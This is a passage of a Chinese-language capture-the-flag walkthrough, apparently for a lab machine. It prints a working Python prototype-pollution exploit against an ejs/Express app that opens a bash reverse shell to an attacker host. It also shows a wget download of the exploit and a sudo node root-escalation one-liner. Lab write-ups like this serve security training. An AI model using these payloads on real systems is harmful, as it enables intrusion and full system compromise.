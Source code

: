 对这个漏洞的利用需要ejs框架和parseNested开启,这正是我们有的!

看来这个漏洞势在必得!

```python
import requests
LHOST='10.0.0.12'  # Change it
LPORT='5555'	# Change it
RHOST='127.0.0.1'	# Change it
RPORT='8080'	# Change it
cmd = 'bash -c "bash -i &> /dev/tcp/'+LHOST+'/'+LPORT+' 0>&1"'
# pollute
requests.post('http://'+RHOST+':'+RPORT, files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://'+RHOST+':'+RPORT)
```

我们在博客中找到了作者的exp模版,我们进行修改,上传

在kali使用`python3 -m http.server 80`开启web(文件传输)服务,

在靶机进入`/tmp`目录,使用`wget http://10.0.0.12/exp.py`获取exp.py文件

执行一下!

![截屏2021-08-18 下午7.22.20](https://tva1.sinaimg.cn/large/008i3skNly1gtl5vkl2boj60yk08qac602.jpg)

Wow,成功了!是root吗?咦?不是?

这才想起来,我们还没有获得userflag呢.这下我们是imera用户,可以看看user.txt啦~![截屏2021-08-18 下午7.39.07](https://tva1.sinaimg.cn/large/008i3skNly1gtl6cz9eobj60gg03eq3b02.jpg)

获得user flag--`byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK`

### 第二次提权

还是老三样,内核,suid,sudo

我们查看`sudo -l`![截屏2021-08-18 下午7.43.03](https://tva1.sinaimg.cn/large/008i3skNly1gtl6h2g4vnj615e09241002.jpg)

WOW,有惊喜!我们可以使用root权限在没有密码的情况下运行node,执行javascript文件

这不是手到擒来吗!我们之前使用过python反弹shell,nodejs其实是一样的道理,只是编写shell的语言不同罢了~

这里推荐一个本地提权命令的网站,里面包含了多种通过linux二进制文件进行提权的方式

https://GTFOBins.github.io

感谢"我们一起来打靶"交流群的"**Nacl🔥**"师傅分享此网站

***Ps:强烈推荐教程,群里的同学互相帮助,学习氛围非常好!***

`sudo node -e "child_process.spawn('/bin/bash',{stdio: [0,1,2]})"`

![截屏2021-08-18 下午7.51.58](https://tva1.sinaimg.cn/large/008i3skNly1gtl6qdk2vqj610i08gmyy02.jpg)
